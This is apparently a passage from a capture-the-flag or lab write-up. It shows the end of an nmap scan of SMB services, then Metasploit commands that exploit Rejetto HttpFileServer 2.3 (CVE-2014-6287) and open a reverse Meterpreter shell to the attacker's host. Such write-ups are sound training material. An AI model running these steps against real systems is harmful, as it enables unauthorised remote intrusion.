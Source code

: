 ```sh
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2022-09-24T04:34:44
|_  start_date: 2022-09-24T03:53:37
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 49408/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 28157/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 12748/udp): CLEAN (Timeout)
|   Check 4 (port 13957/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 23 21:34:50 2022 -- 1 IP address (1 host up) scanned in 506.27 seconds
```

## Exploitation

### MSFVenom/Metasploit

Nmap found  HttpFileServer httpd 2.3 running on port 8080. This file server is vulnerable and the exploit can be found underCVE-2014-6287.

```sh
> msfvenom
```
```
msf6 > search HttpFileServer

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
	    -  ----                                   ---------------  ----       -----  -----------
			   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
	Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec
```
```
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.60.65
rhosts => 10.10.60.65
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.231.100
rhosts => 10.10.231.100
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 10.10.231.100
srvhost => 10.10.231.100
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.18.57.77:8000 
[*] Using URL: http://10.18.57.77:4445/eCbav4dYqRYI8NF
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /eCbav4dYqRYI8NF
[*] Sending stage (175686 bytes) to 10.10.231.100
[*] Meterpreter session 3 opened (10.18.57.77:8000 -> 127.0.0.1) at 2022-09-23 21:59:13 -0700
```
